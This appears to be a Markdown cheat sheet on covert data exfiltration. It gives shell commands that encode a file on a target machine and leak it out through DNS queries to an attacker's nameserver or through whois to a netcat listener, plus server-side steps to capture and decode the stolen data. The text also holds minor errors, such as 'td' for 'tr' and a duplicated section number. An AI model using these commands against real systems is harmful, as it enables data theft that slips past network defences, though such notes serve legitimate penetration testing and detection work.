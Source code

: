# DNS

## 01 - Unix Shell

### 1.1 - Hex Encoded DNS Exfiltration

TODO: Provide a step process for exfiltrating DNS server on the attacker machine

#### 1.1.1 - Server Setup

##### 1.1.1.1 - BIND9

```
$ sudo apt install bind9
```

##### 1.1.1.2 - Dnsmasq

```
$ sudo apt install dnsmasq
```

#### 1.1.1 - Workstation Setup

- Install for Debian-based distros

```
$ sudo apt install ldnsutils dnsutils
```

- Install for Arch-based distros

```
$ sudo pacman -S bind
```

#### 1.1.2 - Usage

- On the target workstation

```
$ xxd -p file.txt > file.hex

$ while read line; do drill $line.<nameserver_dns_server>; done < file.hex

$ grep -Eo [0-9a-f]*.<nameserver_dns_server_IP> /var/lib/bind/query.log | cut -d "." -f 1 | uniq > file.hex

$ xxd -r -p file.hex > file.txt
```

### 1.2 - Base64 Encoded DNS Exfiltration

#### 1.2.1 - TCPDump

##### 1.2.1.1 - Target Workstation

```
$ base64 file.txt | td -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed 's/$/<domain.com>/'
```

##### 1.2.1.2 - Attacker Server

- Monitor port 53

```
$ sudo tcpdump -i <interface> udp port 53
```

- Decode results

```
$ echo "<base64_encoded>" | cut -d "." -f1-8 | tr -d "." | base64 -d
```

### 1.3 - Whois

```
$ whois -h <IP> -p 43 $(cat /path/to/file.txt)

$ sudo nc -lnvp 43
```

---
## References

- [Staged Payloads from Kali Linux | PT Phone Home – DNS](https://www.offsec.com/offsec/staged-payloads-from-kalki-linux-pt-phone-hone-dns/)

- [Downloading Files Through Recursive DNS With Bash (Or PowerShell)](http://breenmachine.blogspot.com/2014/03/downloading-files-through-recursive-dns.html)

- [NotSoSecure: Out of Band Exploitation (OOB) CheatSheet](https://notsosecure.com/out-band-exploitation-oob-cheatsheet)

- [DNS exfiltration of data: step-by-step simple guide](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)

- [Setting Up Your Own Malicious DNS Server For Data Exfiltration (Without a DNS Server)](https://john-woodman.com/research/dns-exfiltration-setup/)

- [Deploy Self hosted interactsh-server for Blind & Out of Band Testing](https://takshilp.medium.com/oob-blind-testing-using-dns-exfiltration-54bcc004a0fb)